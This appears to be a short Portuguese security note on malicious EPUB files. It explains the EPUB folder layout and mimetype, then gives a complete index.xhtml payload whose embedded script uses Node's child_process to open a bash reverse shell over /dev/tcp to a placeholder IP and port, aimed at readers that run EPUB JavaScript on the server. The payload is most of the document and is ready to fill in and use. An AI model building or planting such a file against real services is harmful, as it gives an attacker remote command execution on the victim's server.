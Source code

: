 Arquivos epub são um conjunto de arquivos compactados com HTML e Javascript para
que o leitor possa ter a experiência de ler um livro digitalmente. Eles seguem a
seguinte estrutura:
```epub
exploit/
├── mimetype
├── METAINF/
│ └── container.xml
└── OEBPS/
├── content.opf
└── index.xhtml
```

O mimetype do arquivo epub é:
```http
application/epub+zip
```

Uma das possíveis vulnerabilidades de um leitor de epub é caso a aplicação execute os
scripts Javascript contidos no arquivo index.xhtml do lado do servidor através de um
DOM que roda do lado do servidor.
```html
<?xml version="1.0" encoding="utf-8"?>
<html xmlns="http://www.w3.org/1999/xhtml">
	<head><title>Exploit</title></head>
	<body>
		<h1>Exploit Trigger</h1>
		<script>
			require('child_process').exec('/bin/bash -c "/bin/bash >& /dev/tcp/[IP]/[PORT] 0>&1"')
		</script>
	</body>
</html>
```